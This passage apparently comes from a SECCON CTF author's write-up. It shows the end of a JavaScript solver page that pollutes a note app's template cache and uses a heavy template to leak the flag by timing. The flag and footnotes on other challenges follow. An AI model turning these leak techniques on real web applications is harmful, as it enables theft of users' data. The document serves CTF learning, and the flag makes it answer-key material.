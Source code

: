 ```html title="index.html"
        </form>
      `;
      document.body.innerHTML += innerHtml;
      document.forms[document.forms.length - 1].submit();
    };

    const polluteCache = async (flagIndex) => {
      const evilNote = `${flagIndex}-{{notes.${flagIndex}}}-{{emoji}}`;
      createNote("dummy");
      await sleep(500);
      createNote(evilNote);
      await sleep(500);
      deleteNote(MAX_FLAG_LENGTH);
      await sleep(1000);
      deleteNote(MAX_FLAG_LENGTH);
      await sleep(1000);
    }

    const main = async () => {
      const heavyTemplate = "{{x}}".repeat(HEAVY_LEVEL);
      changeEmoji(heavyTemplate);
      await sleep(1000);

      const known = "SECCON{";
      for (let i = known.length; i<MAX_FLAG_LENGTH; i++) {
        await polluteCache(i);
      }
      navigator.sendBeacon(`${location.origin}/start-leak`);
    };
    main();
  </script>
</body>
```

### Flag[^dark-note-flag]

```
SECCON{d0wnwe11}
```

[^dark-note-flag]: https://store.steampowered.com/app/360740/Downwell


[^babybox-1]: Actually, I discovered the Prototype Pollution before I found this report. Although I don't like 0-day challenges in CTF, it's not 0-day in this case. Also, the part of "Prototype Pollution to RCE" is interesting for me. So I decided to create this challenge.
[^maas-1]: The CSP bypass is too complicated to explain. So, please try it with your hands :raised_hands:
[^light-note-1]: Firefox has recently added support for import maps at version 108 :tada:<br />ref. https://www.mozilla.org/en-US/firefox/108.0/releasenotes/
[^light-note-2]: However, we can construct nested forms by DOM manipulation in JavaScript.<br />E.g. `document.body.appendChild(document.createElement("form")).appendChild(document.createElement("form"))`<br />ref. https://html.spec.whatwg.org/#association-of-controls-and-forms
[^light-note-flag]: https://store.steampowered.com/app/381890/Induction